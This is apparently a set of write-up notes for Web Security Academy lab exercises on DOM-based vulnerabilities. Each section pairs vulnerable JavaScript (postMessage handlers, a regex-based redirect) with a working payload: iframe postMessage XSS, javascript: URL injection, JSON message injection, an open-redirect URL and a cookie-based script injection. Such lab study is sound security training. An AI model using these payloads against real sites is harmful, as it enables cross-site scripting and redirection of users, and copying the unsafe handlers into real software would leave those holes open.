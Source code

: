 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code - `JSON.parse` parse the message data.
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM-based open redirection
* Vulnerable Code
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
* Payload
```html
### Visit the following URL. The vulnerable code will read the value of url= and redirect the user to the following url when "Back to Blog" is clicked:

https://acaa1f4e1f5e9aa7c0c6e265002f004c.web-security-academy.net/post?postId=4&url=https://exploit-ac4f1f6d1f429a0dc0e4e2eb018e0096.web-security-academy.net/ 
```

### DOM-based cookie manipulation
* Payload
```html
<iframe src="https://acb61f151e1962a8c0e21111007b00ff.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://acb61f151e1962a8c0e21111007b00ffweb-security-academy.net';window.x=1;"> 
```